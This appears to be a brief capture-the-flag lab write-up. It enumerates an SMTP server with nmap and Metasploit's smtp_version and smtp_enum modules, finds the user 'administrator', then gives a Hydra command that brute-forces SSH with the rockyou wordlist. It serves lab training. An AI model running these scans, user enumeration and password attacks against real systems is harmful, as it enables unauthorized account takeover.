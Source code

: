 1. smtp_version
2. smtp_enum

# Nmap

nmap -sC -sV -Pn -A -T4 -vvv -p- 10.10.27.51

```
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
25/tcp open  smtp    syn-ack Postfix smtpd
|_smtp-commands: polosmtp.home, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=polosmtp
| Subject Alternative Name: DNS:polosmtp
| Issuer: commonName=polosmtp
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-04-22T18:38:06
| Not valid after:  2030-04-20T18:38:06
| MD5:   5c21 92bb 0da5 82d6 7b45 a851 7651 7137
| SHA-1: eb6c 0d88 57e6 8ba7 8308 aac8 9c34 0836 d2a1 c133
```

# Metasploit smtp version

## auxiliary/scanner/smtp/smtp_version 

```
[+] 10.10.27.51:25        - 10.10.27.51:25 SMTP 220 polosmtp.home ESMTP Postfix (Ubuntu)\x0d\x0a
[*] 10.10.27.51:25        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
# Metasloit SMTP Enum

auxiliary/scanner/smtp/smtp_enum 

```
[*] 10.10.27.51:25        - 10.10.27.51:25 Banner: 220 polosmtp.home ESMTP Postfix (Ubuntu)
[+] 10.10.27.51:25        - 10.10.27.51:25 Users found: administrator
[*] 10.10.27.51:25        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Let's use hydar to crack SSH.

# Hydra

hydra -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.27.51 ssh
